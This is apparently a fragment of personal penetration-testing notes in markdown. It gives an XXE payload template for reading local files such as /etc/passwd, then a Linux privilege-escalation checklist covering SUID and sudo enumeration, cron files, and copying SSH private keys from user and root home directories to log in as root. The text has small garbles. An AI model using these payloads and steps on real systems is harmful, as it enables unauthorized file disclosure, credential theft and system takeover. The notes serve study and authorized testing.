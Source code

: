 - XXE Injections:

  ```php
  <!--?xml version="1.0" ?-->
  <!DOCTYPE foo [<!ENTITY example SYSTEM "FILE"> ]>
  <data>&example;</data>
  ```
  
  - FILE:
    - Linux: `"/etc/passwd"`
    - Windows file: `'file"///c:/windows/win.ini'`
  - data: vulnerable parameter, the *reflected* one.
  
  

# Privilege Escalation

## Linux

- Users `cat /etc/passwd | grep sh` and `ls  /home`

- User Group:

  -  `id` and what can that group dosu
  - [interesting_groups](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe)

- User Privileges:

  - `sudo -l` sudo privileges
  - `find / -perm -u=s -type f 2>/dev/null`: checks for *SUID binaries* 
  - search on [gtfobins](https://gtfobins.github.io) bin files with relative privileges

- Readable / Owned web files (for web application)

  - `find /var/www -type f -group [group] 2>/dev/null`  

  - `find /var/www -type f -user [user] 2>/dev/null`

  - `find /var/www -type f -readable 2>/dev/null`

  - `/proc` and `sis` `run` not interesting

  - Scheduled Tasks:

    - `/etc/crontab`
    - `/etc/cron.d`
    - `/var/spool/cron/crontabs/root`

  - SSH keys:  

    - Read: copy it from `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`

      ```bash
      $ chmod 600 id_rsa	# More restrictive permission
      $ ssh root@10.10.10.10 -i id_rsa
      $ nano id_rsa	# open and copy on your machine
      ```
